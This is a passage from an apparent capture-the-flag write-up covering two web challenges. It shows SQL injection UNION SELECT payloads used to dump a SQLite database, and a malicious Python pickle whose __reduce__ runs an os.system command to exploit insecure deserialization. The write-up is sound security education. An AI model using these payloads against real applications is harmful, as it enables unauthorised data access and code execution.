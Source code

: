 I try a basic SQL injection payload on the username field, and it works, but I get:

```
INSUFFICIENT ACCESS FOR USER wintermute
```

I don't make any further progress following this route so I use a `UNION SELECT` query to explore other tables in the DB after finding out that it's a SQLite backend.

The following queries respectively output the tables, the columns, and then the flag:

```
' UNION SELECT name FROM sqlite_master; --
' UNION SELECT sql FROM sqlite_master; --
' UNION SELECT value FROM flag; --
```

## Web ¥30

I am dropped into another Links session, which just says `SUCCESS`. There's nothing else happening in the browser so I use the menu option to go into an OS shell:

```bash
user@946801ab1ad6:/app$ ls -la
total 24
drwxr-xr-x 1 root root 4096 Feb 27 21:39 .
drwxr-xr-x 1 root root 4096 Feb 27 21:39 ..
---------- 1 user root    5 Jan 22 23:10 .a
-r-------- 1 root root   44 Jan 23 15:49 flag
-rw------- 1 root root  741 Jan 22 23:10 main.py
```

There's a suspicious `.a` file, however initially I have no permissions over it. Nevertheless, note that although it's group-owned by root, we have user ownership so can just `chmod 777` to read and write to it. 

Current contents are puzzling:

```bash
user@946801ab1ad6:/app$ cat .a
T~i%4
```

Modifying this file in any way, going back into the browser and reloading the page shows: `DESERIALIZATION FAILED`

Along with the fact that it's a Python webserver, this suggests it's a [malicious pickle](https://www.synopsys.com/blogs/software-security/python-pickling/) vulnerability.

Based on the linked resource I came up with the following:

```python
import pickle
import os
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (os.system, ('chmod 777 flag',))

print pickle.dumps(RunBinSh())
```
